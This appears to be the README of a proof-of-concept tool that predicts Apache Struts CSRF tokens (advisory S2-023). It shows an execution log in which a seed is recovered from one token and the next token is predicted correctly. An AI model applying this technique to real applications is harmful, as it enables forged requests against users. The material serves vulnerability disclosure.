 Proof of concept code to predict Struts CSRF token. [[S2-023](http://struts.apache.org/docs/s2-023.html)]


**Execution preview**

    == Initial token
    H6P3Y3GHIC2865ASZVQ913NR93QZO7BR
    == Initial token in hex (easier evaluation)
    14b08fcbf6523eecd7dd7d3e89cf97d6f478db5617

    Guessing part..
    == bytes representation (reconstructed byte array)
    14b08fcb
    f6523eec
    d7dd7d3e
    89cf97d6
    f478db56
    Seed found: 259752424024079
    == following int .. (should match the initial token last part) 
    d7dd7d3e
    89cf97d6
    f478db56
    175a6e1c
    == (prediction) Next token 
    1590c1573a30295e6d87082bf2c389f575f5fcfa3890b8ac

    == (actual) Next token
    HWVVZO2VGBZOYD0QFWE8GU3BW4DCRVW8
    == (actual) Next token in hex (easier evaluation)
    1590c1573a30295e6d87082bf2c389f575f5fcfa38

